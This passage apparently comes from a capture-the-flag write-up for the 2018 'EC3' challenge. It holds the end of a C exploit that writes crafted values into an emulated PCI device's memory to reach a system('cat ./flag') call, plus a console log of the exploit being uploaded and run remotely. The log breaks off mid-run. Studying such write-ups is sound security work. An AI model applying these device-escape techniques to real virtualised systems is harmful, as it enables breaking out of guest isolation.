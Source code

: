   for (i; i < 6; i++) {
    pcimem(i << 16, 'b', 0xd);    // Step 5
  }

  for (i = 0; i < 6; i ++) {
    pcimem((0x20 | i) << 16, 'd', 0x1130b78000000); // Step 6
  }

  pcimem(0x280000, 'd', 0x6E65F9);  // Step 7
  pcimem(0x000000, 'b', 0x10);      // call system("cat ./flag")


    close(fd);
    return 0;
}

{% endhighlight %}

Unnecessary to show python script just solves the POW and sends the binary in base64 form to the remote machine.

{% highlight text %}
➜  EC3 python ./ec3_solve.py 11d9f496.quals2018.oooverflow.io 31337
[*] For remote: ./ec3_solve.py HOST PORT
[+] Opening connection to 11d9f496.quals2018.oooverflow.io on port 31337: Done
[*] Switching to interactive mode
 base64 -d cust_pcimem.b64 > cust_pcimem && chmod +x cust_pcimem && ./cust_pcimem

/sys/devices/pci0000:00/0000:00:04.0/resource0 opened.
Target offset is 0x0, page size is 4096
mmap(0, 4096, 0x3, 0x1, 3, 0x60000)
PCI Memory mapped to address 0x7f48a633c000.
Written 0xD; readback 0xD
mmap(0, 4096, 0x3, 0x1, 3, 0x0)
PCI Memory mapped to address 0x7f48a633c000.
Written 0xD; readback 0xD
mmap(0, 4096, 0x3, 0x1, 3, 0x10000)
PCI Memory mapped to address 0x7f48a633c000.
Written 0xD; readback 0xD
mmap(0, 4096, 0x3, 0x1, 3, 0x100000)
PCI Memory mapped to address 0x7f48a633c000.
Written 0xD; readback 0xD
mmap(0, 4096, 0x3, 0x1, 3, 0x200000)
PCI Memory mapped to address 0x7f48a633c000.
Written 0x0131796D; readback 0x 131796D
mmap(0, 4096, 0x3, 0x1, 3, 0x0)
PCI Memory mapped to address 0x7f48a633c000.
Written 0xD; readback 0xD
mmap(0, 4096, 0x3, 0x1, 3, 0x10000)
PCI Memory mapped to address 0x7f48a633c000.
Written 0xD; readback 0xD
mmap(0, 4096, 0x3, 0x1, 3, 0x20000)
PCI Memory mapped to address 0x7f48a633c000.
Written 0xD; readback 0xD
mmap(0, 4096, 0x3, 0x1, 3, 0x30000)
PCI Memory mapped to address 0x7f48a633c000.
Written 0xD; readback 0xD
mmap(0, 4096, 0x3, 0x1, 3, 0x40000)
PCI Memory mapped to address 0x7f48a633c000.
Written 0xD; readback 0xD
mmap(0, 4096, 0x3, 0x1, 3, 0x50000)
PCI Memory mapped to address 0x7f48a633c000.
Written 0xD; readback 0xD
mmap(0, 4096, 0x3, 0x1, 3, 0x200000)
PCI Memory mapped to address 0x7f48a633c000.
Written 0x1130B78000000; readback 0x1130B78000000
mmap(0, 4096, 0x3, 0x1, 3, 0x210000)